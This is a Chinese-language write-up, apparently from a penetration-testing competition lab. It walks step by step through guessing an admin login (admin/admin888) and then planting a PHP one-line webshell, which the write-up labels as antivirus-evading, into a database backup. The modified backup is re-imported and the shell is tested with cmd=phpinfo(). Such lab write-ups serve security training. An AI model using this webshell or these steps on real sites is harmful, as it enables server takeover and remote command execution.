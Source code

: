 在首页点击`登录`进入用户登录界面：

![image-20211112133316639162-1669009291434404.png](img/典型企业生产环境渗透赛 Local.assets/4df7b1396652b17e7367166bfb443742.png)

在地址栏发现是普通用户登录地址。

![image-20221108154535427450-1669009292636810.png](img/典型企业生产环境渗透赛 Local.assets/6e852996e51fdba051b69412c37246d5.png)

将`simple`替换成`admin`，访问管理员登录界面：

![image-20221108154558920412-1669009293860176.png](img/典型企业生产环境渗透赛 Local.assets/9623c9938d937156023cf9f7309e9e29.png)

尝试弱口令登录，使用`admin/admin888`登录成功：

![image-20221108154642085400-1669009295053752.png](img/典型企业生产环境渗透赛 Local.assets/7ec443b046e3ff2a2f4a8b744b2298f5.png)

点击`系统设置`>>`数据库管理`>>`数据库备份`，勾选 `tiny_help`。

![image-20221121094021590020-1669009296366813.png](img/典型企业生产环境渗透赛 Local.assets/c7c89f8df3d2cbf42835282390913f4f.png)

点击最上方的`备份`。

![image-20211112133649829572-1669009297588837.png](img/典型企业生产环境渗透赛 Local.assets/efdc8cf5037bd7645a87956514844bba.png)

备份之后点击`处理`>>`下载`，将文件下载到桌面。

![image-20211112133722292875-1669009298769621.png](img/典型企业生产环境渗透赛 Local.assets/012fde67a1fc7216303a7ca36492c3f1.png)

编辑下载的文件，找到`配送范围`，写入一句话免杀木马并保存：

```
<?php $arr = [$_POST["cmd"],$_REQUEST["cmd"]];@assert($arr[mt_rand(0,1)]);?>
```

![image-20211112133755415725-1669009300000260.png](img/典型企业生产环境渗透赛 Local.assets/97e5a828419da8cdefa65cea091a41fe.png)

回到浏览器界面点击`导入`，选择刚下载并修改的文件进行`上传`：

![image-20211112133831032224-1669009301172098.png](img/典型企业生产环境渗透赛 Local.assets/496811762683d5c749240c7da093bb0d.png)

点击`系统设置`>>`安全管理`>>`清除缓存`>>`全部清理缓存`：

![image-20211112133910192061-1669009302404425.png](img/典型企业生产环境渗透赛 Local.assets/62278e8d8e8fa6cfca4de2774ff979c5.png)

点击`内容管理`>>`全部帮助`>>`用户注册协议`：

![image-20211015095529975209-1669009303624382.png](img/典型企业生产环境渗透赛 Local.assets/e2df18158904064827dba1fdeb1fcc98.png)

点击后跳转到新界面。

![image-20211015100042200410-1669009305016602.png](img/典型企业生产环境渗透赛 Local.assets/fdeccb4e2571b3de31ae78f3f3398e7f.png)

打开新的标签页，测试木马是否上传成功：

```
Load URL：

http://192.168.10.111:8080/cache/325/532/5862.php

Post data：

cmd=phpinfo();
```
